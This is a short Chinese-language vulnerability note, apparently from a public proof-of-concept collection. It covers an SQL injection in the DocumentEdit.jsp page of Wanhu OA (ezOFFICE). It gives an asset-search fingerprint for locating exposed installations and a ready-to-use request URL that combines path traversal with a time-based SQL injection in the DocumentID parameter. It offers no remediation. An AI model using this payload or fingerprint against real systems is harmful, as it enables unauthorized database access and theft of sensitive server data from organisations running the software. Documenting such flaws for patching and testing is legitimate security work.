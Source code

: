 # 万户OA DocumentEdit.jsp SQL注入漏洞

## 漏洞描述

万户OA DocumentEdit.jsp文件存在SQL注入漏洞，攻击者通过发送特殊的请求包可以对数据库进行SQL注入，获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>万户OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220905141730301.png)

验证POC

```html
/defaultroot/iWebOfficeSign/OfficeServer.jsp/../../public/iSignatureHTML.jsp/DocumentEdit.jsp?DocumentID=1';WAITFOR%20DELAY%20'0:0:5'--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662358602569-71e26a34-726b-4d75-b683-225884ec7b4a.png)![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662358633067-36051816-df31-4886-b3cb-69fa17dd5872.png)